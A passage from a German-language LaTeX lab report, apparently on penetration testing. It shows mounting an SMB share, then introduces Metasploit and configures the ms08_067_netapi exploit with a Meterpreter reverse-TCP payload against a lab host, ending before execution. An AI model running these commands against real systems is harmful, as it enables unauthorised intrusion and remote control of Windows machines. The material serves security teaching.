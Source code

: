 \begin{lstlisting}
\% mkdir /mnt/cifs
\% sudo mount -t cifs //172.16.14.40/public /mnt/cifs
\% cd /mnt/cifs
\% ls
Rezept1NR.txt  testdatei.txt
\% cp -v Rezept1NR.txt /home/xxx
`Rezept1NR.txt' -> `/home/xxx/Rezept1NR.txt'
\end{lstlisting}

\subsubsection{Metasploit}

Das Metasploit-Projekt ist ein freies Open-Source-Projekt zur
Computersicherheit, das Informationen über Sicherheitslücken bietet und bei
Penetrationstests sowie der Entwicklung von IDS-Signaturen(? @TODO) eingesetzt
werden kann. Das bekannteste Teilprojekt ist das Metasploit Framework, ein
Werkzeug zur Entwicklung und Ausführung von Exploits\footnote{Ein Exploit dient
  dem Eindringen in ein Zielsystem, indem ein Programmfehler ausgenutzt wird.}
gegen verteilte Zielrechner. Andere wichtige Teilprojekte sind das
Shellcode-Archiv\footnote{Payload (Nutzlast) bezeichnet den Code, der auf dem
  Zielrechner bei einem erfolgreichen Einbruch ausgeführt werden soll. Meist ist
  dies Shellcode, der dem Angreifer ermöglicht auf eine Shell zuzugreifen. Es
  könnte aber auch ein Meterpreter oder VNC-Server ausgeführt werden.} und
Forschung im Bereich der IT-Sicherheit.

\subsubsection{Benutzung von Metasploit}

Nachdem die Metasploitkonsole über den Befehl \lstinline{./msfconsole} gestartet
wurde, begrüßt sie den Benutzer mit den Anzahlen der bekannten
Sicherheitslücken, Payloads etc.:
\begin{lstlisting}[language=Metasploit]
[*] Please wait while the Metasploit Pro Console initializes...

[*] Starting Metasploit Console...
       =[ metasploit v3.4.0-release [core:3.4 api:1.0]

+-- --=[ 840 exploits - 495 auxiliary - 146 post

+-- --=[ 250 payloads - 27 encoders - 8 nops
\end{lstlisting}

Metasploit wird angewiesen den gewünschten Exploit zu laden und anschließend mit
den nötigen Optionen konfiguriert:
\begin{lstlisting}[language=Metasploit]
msf > use exploit/windows/smb/ms08_067_netapi
msf  exploit(ms08_067_netapi) > set RHOST 172.16.14.40

RHOST => 172.16.14.40

msf  exploit(ms08_067_netapi) > set LHOST 172.16.20.17

LHOST => 172.16.20.17

msf  exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/reverse_tcp

PAYLOAD => windows/meterpreter/reverse_tcp
\end{lstlisting}


